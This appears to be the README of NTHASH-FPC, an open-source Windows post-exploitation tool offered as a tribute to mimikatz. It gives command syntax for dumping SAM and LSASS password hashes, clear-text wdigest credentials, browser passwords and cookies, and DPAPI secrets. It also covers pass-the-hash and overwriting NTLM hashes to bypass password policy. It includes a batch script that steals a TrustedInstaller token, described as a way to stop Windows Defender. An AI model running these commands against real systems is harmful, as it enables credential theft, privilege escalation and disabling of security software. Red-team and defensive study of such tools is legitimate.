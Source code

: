# NTHASH-FPC <br/>
A tribute to https://github.com/gentilkiwi/mimikatz... <br/>
And generally speaking a tool to handle windows passwords and perform lateral movement. <br/>
https://attack.mitre.org/matrices/enterprise/windows/ is definitely worth reading as well. <br/>

<br/>
Command line as below: <br/>
NTHASH /setntlm [/server:hostname] /user:username /newhash:xxx <br/>
NTHASH /setntlm [/server:hostname] /user:username /newpwd:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldpwd:xxx /newpwd:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldhash:xxx /newpwd:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldpwd:xxx /newhash:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldhash:xxx /newhash:xxx <br/>
NTHASH /gethash /password:password <br/>
NTHASH /getsid /user:username [/server:hostname] <br/>
NTHASH /getusers [/server:hostname] <br/>
NTHASH /getdomains [/server:hostname <br/>
NTHASH /dumpsam <br/>
NTHASH /dumphashes [/offline] <br/>
NTHASH /getsamkey [/offline] <br/>
NTHASH /getsyskey [/offline] <br/>
NTHASH /getlsakeys <br/>
NTHASH /wdigest <br/>
NTHASH /logonpasswords <br/>
NTHASH /pth /user:username /password:myhash /domain:mydomain <br/>
NTHASH /enumcred <br/>
NTHASH /enumcred2 <br/>
NTHASH /enumvault <br/>
NTHASH /chrome [/binary:path_to_database] <br/>
NTHASH /ccookies [/binary:path_to_database] <br/>
NTHASH /firefox [/binary:path_to_database] <br/>
NTHASH /fcookies [/binary:path_to_database] <br/>
NTHASH /bytetostring /input:hexabytes <br/>
NTHASH /stringtobyte /input:string <br/>
NTHASH /base64encodew /input:string <br/>
NTHASH /base64encode /input:string <br/>
NTHASH /base64decode /input:base64string <br/>
NTHASH /cryptunprotectdata /binary:filename <br/>
NTHASH /cryptunprotectdata /input:string <br/>
NTHASH /cryptprotectdata /input:string <br/>
NTHASH /lsasecrets /input:secret <br/>
NTHASH /runasuser /user:username /password:password [/binary: x:\folder\bin.exe] <br/>
NTHASH /runastoken /pid:12345 [/binary: x:\folder\bin.exe] <br/>
NTHASH /runaschild /pid:12345 [/binary: x:\folder\bin.exe] <br/>
NTHASH /runas [/binary: x:\folder\bin.exe] <br/>
NTHASH /runts /user:session_id [/binary: x:\folder\bin.exe] <br/>
NTHASH /enumpriv <br/>
NTHASH /enumproc <br/>
NTHASH /dumpproc /pid:12345 <br/>
NTHASH /runwmi /binary:x:\folder\bin.exe [/server:hostname] <br/>
NTHASH /context <br/>
NTHASH /a_command /verbose <br/>
NTHASH /a_command /system <br/>

<br/>

<b>changentlm</b>, using a legacy api, may not work if your ntlm hashes are encrypted with AES (i.e starting with win10 1607. <br/>
Credits goes to https://github.com/vletoux/NTLMInjector <br/>

<b>setntlm</b> on the other hand should always work and allow one to bypass password policy.  <br/>
Credits goes to https://github.com/vletoux/NTLMInjector <br/>

<b>dumpsam</b> will temporarily patch a module in lsass to be able to dump your SAM ntlm hashes from the lsass memory (need to cover/test as many windows version as possible). <br/>

<b>dumphash and dumphashes</b> will read the registry - you need to run as system to perform this action <br/>.
Or you can use the /system switch <br/>.
You can also perform this offline (and then no longer require to run as system). <br/>
You can use reg save hklm\sam sam.sav and reg save hklm\system system.sav to generate offline hives. <br/>
Both the RC4 and AES cipher are supported. <br/>
https://www.insecurity.be/blog/2018/01/21/retrieving-ntlm-hashes-and-what-changed-technical-writeup/ is a must read to understand RC4 vs AES. <br/>

<b>cryptunprotectdata and cryptprotectdata</b>  will decrypt datas using dpapi under the runnin user context. <br/>
You can for example decrypt the wireless stored password in C:\ProgramData\Microsoft\Wlansvc\Profiles\Interfaces\{INTERFACE UUID} .<br/>
Retrieve the xml keyMaterial value and run nthash /cryptunprotectdata /input:keymateriel /system .<br/> 
Note that this data is encrypted/decrypted under the system account. <br/>

<b>enumcred</b> will use CredEnumerate windows API to enumerate the logged on user credentials. <br/>
<b>enumcred2</b> will use CredEnumerate windows API to enumerate the logged on user credentials while also patching lsass to dump all credentials <br/>

<b>enumvault</b> will use vaultcli.dll windows API to enumerate the logged on user vault credentials. <br/>

<b>logonpasswords</b> will dump lsasrv logon sessions primary credentials (hashes) and credential managers (clear text) <br/>

<b>wdigest</b> will dump wdigest sessions credentials (clear text) <br/>

<b>runastoken</b> can be used to run a process under a system account. <br/>
Once under a system account, you can also "steal" a token from trustedinstaller (net start trustedinstaller before hand. <br/>
Note that you can steal a trustedinstaller token directly by using the /system switch. <br/>
With a trustedinstaller token, you can perform actions like stop windefend (or kill the process, or modify the AV settings, etc). <br/>
See example below where you would start the trustedinstaller service, retrieve its pid and run a process as the account. <br/>
<i>
@echo off <br/>
net start trustedinstaller <br/>
for /F "tokens=1" %%K in ('
   nthash-win64 /enumproc ^| findstr /i "trustedinstaller"
') do (
   nthash-win64 /runastoken /pid:%%K /system
)
<br/>
  </i>

<b>runaschild</b> can be used to run a process as a child of another existing/parent process. <br/>
Note that some apps (like cmd.exe) will crash right after initialization with a c0000142. <br/>
Wierdly enough, loading notepad.exe with this method and then launching cmd.exe from there works...

<b>runas</b> will launch a process in elevated mode. <br/>

<b>runts</b> will launch a process in the context of another TS session. <br/>
Note that this one needs the setcbprivilege so you will have to find a token with such privilege first (like winlogon.exe). <br/>

todo/news: <br/>
-decrypt sam hashes online (rather than patching lsass) and offline : done in v1.1 <br/>
-deal with new AES cipher used in latest win10 1607 : done in 1.2 <br/>
-enum Lsasrv.dll!LogonSessionList: done in 1.3 <br/>
-enum Wdigest.dll!l_LogSessList: done in 1.3 <br/>
-decrypt dpapi encrypted vault and/or credentials : done in 1.4 <br/>
-patch LogonSessionList and perform pth: done in 1.4 <br/>
-decrypt chrome and firefox passwords: done in 1.4 <br/>
-decrypt firefox and chrome passwords/cookies : done in 1.5 </br>
-dpapi command to dump all masterkeys : done in 1.6 </br>
-LsaRetrievePrivateData: done in 1.6</br>
-todo : work out offline decryption of lsasecrets as well as currval and oldval (using syskey?) </br>
-todo : work out LsaICryptUnprotectData thru dll injection </br>
-todo : work out masterkey decryption based on sha1 user password </br>
-todo : work out credential blob decryption based on decrypted masterkey </br>
